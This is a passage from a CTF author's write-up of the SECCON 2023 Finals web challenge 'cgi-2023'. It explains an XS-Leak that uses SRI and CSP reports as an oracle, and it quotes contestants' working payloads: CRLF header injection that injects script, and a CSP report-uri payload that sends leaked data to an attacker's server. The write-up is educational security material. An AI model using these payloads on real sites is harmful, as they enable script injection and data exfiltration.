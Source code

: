 Then, the response body is as follows if the flag cookie is `FLAG=SECCON{dummy}`:
```html
<style>Status: 200 OK
Content-Type: text/plain; charset=utf-8

SECCON{d
```

The SRI check will succeed, and the CSP error report won't be sent.

If the SRI check fails, the CSP error report will be sent.
Thus, we can use the behavior as an oracle to perform XS-Leaks.

### Solver

Here is my full exploit:

- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202312_SECCON_CTF_2023_Finals/web/cgi-2023/solver/

### Unintended solutions

There were some unintended solutions:

- `Content-Security-Policy-Report-Only` + Lazy-loading iframe + Scroll to Text Fragment:
    - Writeups by Pencake from HK Guesser:
        - https://hackmd.io/@IOKh9vO3ReOUWJgQcV1WPQ/ryFZXFFwp#cgi-2023
    - I was surprised that lazy loading affects the time when CSP errors occur.
- Bypassing `status` checks using `%0d`:
    - Payload by Paul_Axe from More Smoked Leet Chicken:
      ```
      GET /?q=s%0dtatus:103%20Eearly%20Hints%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:text/html%0d%0a%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1
      ```
    - I added a check `!strings.Contains(strings.ToLower(q), "status")` to prevent solutions with `100 Continue` or `103 Early Hints`. However, the above solution succeeded to bypass it using `%0d`:sob:
- `Content-Security-Policy-Report-Only` with `'report-sample'` + utf-16 encoding:
    - Payload by maple3142 from `${CyStick}`:
      ```
      http://web:3000/?q=Content-Security-Policy-Report-Only:%20default-src%20%27report-sample%27%3B%20report-uri%20https://YOUR_SERVER/xx%0aContent-Type:text/html%3Bcharset=utf-16%0a%0a%3C%00s%00t%00y%00l%00e%00%3E%00
      ```
    - I knew `'report-sample'` technique, but I thought it is invalid for this challenge because it can leak only the first 40 characters. The above solution used utf-16 encoding to increase the number of bytes that can be leaked.

### Flag

```
SECCON{leaky_sri}
```

## [web] LemonMD


[^whitespace-js-flag]: https://store.steampowered.com/app/1628610/